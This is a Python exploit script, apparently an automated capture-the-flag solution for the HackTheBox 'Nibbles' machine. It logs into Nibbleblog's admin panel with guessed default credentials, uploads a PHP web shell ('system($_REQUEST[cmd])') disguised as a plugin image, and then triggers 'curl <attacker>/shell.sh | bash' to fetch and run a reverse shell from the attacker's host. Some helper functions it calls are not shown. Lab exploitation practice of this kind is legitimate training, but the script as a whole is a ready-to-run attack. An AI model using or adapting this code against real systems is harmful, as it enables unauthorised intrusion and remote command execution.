 ```py

# Let's login as admin on the app
def LoginAdmin(rhost):
    print("[+] Let's login as admin ! [+]")
    url = "http://%s:80/nibbleblog/admin.php?controller=user&action=login" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "nibbles"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In !! [+]")

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    url = "http://%s/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image" %rhost
    data = '<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'plugin' : (None,"my_image"),
        'title' : (None,"My image"),
        'position' : (None,"4"),
        'image_resize' : (None,"1"),
        'image_width' : (None,"230"),
        'image_height' : (None,"200"),
        'image_option' : (None,"auto"),
        'image': ('shell.php', data, "application/x-php")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

def getReverse(rhost,lhost):
    print("[+] Let's get the reverse shell !! [+]")
    url = "http://%s:80/nibbleblog/content/private/plugins/my_image/image.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"cmd": "/usr/bin/curl %s/shell.sh | bash" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    os.system("rm shell.sh")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Nibbles AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the shell.sh file
    createPayload(lhost,lport)
    # Login as admin
    LoginAdmin(rhost)
    # Upload Malicious
    maliciousUpload(rhost)
    # Get Reverse shell
    getReverse(rhost,lhost)

```